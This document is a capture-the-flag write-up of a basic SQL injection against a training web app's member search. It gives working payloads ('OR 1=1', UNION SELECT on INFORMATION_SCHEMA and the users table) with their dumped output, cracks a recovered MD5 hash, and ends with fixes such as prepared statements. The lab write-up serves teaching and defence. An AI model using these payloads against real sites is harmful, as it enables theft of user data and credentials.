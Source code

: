 # SQL Injection (Basic) 🏴<!-- omit in toc -->

```txt
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

- [Location 🗺️](#location-️)
- [Vulnerability ⚔️](#vulnerability-️)
- [Method 🧾](#method-)
- [Tools & References 🧰](#tools--references-)
- [Fix 🔧](#fix-)

## Location 🗺️

'http://\<ip-address>:80/index.php?page=member'

## Vulnerability ⚔️

SQL Injectable text input in the member search. An
injectible database will allow a person to obtain sensitive information.

## Method 🧾

I entered `105 OR 1=1` in the search box. This returned:

```txt
ID: 105 OR 1=1
First name: Barack Hussein
Surname : Obama

ID: 105 OR 1=1
First name: Adolf
Surname : Hitler

ID: 105 OR 1=1
First name: Joseph
Surname : Staline

ID: 105 OR 1=1
First name: Flag
Surname : GetThe
```

The account of note is `First name: Flag` & `Surname: GetThe`. This is id=5

```txt
ID: 5
First name: Flag
Surname : GetThe
```

So I start running commands using 5 as my focus. The first
thing to do is to find out which tables are present and which coloumns:

```sql
5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
```

```txt
ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : user_id

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : first_name

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : last_name

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : town

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : country

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : planet

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : Commentaire

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : countersign
```

We have found the users table and the columns therein. We are interested to see the contents now so we query:

```sql
5 UNION SELECT Commentaire, countersign FROM users
```

OR to narrow the search down query:

```sql
5 UNION SELECT Commentaire, countersign FROM users WHERE user_id =5
```

This will return:

```txt
ID: 5 UNION SELECT Commentaire, countersign FROM users Where user_id=5
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

This is an MD5 hash is:
`5ff9d0165b4f92b14994e5c685cdce28: FortyTwo`

The SHA256 for `fortytwo: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## Tools & References 🧰

- [hashes.com](https://hashes.com/en)
- [W3Schools.com](https://www.w3schools.com/sql/sql_injection.asp)
- [Cheatsheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
- [Owasp](https://owasp.org/www-community/attacks/SQL_Injection)
- [Portswigger - Union Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [SQL Injection .NET](https://www.sqlinjection.net/table-names/)
- [PT Security](https://www.ptsecurity.com/ww-en/analytics/knowledge-base/how-to-prevent-sql-injection-attacks/)

## Fix 🔧

- Input Validation
  - Use Regular Expressions as whitelist
  - If values are fixed use radios and buttons
- Use internal checks like $(isNumber) or $(isString) depending on the input
- Parametrised Querys like PDO for php or Prepared Statements in general.
- Escaping the characters eg. `mysqli_real_escape_string($string)`

There are other methods like Web Application Firewalls, but the ones listed above are the best places to start.
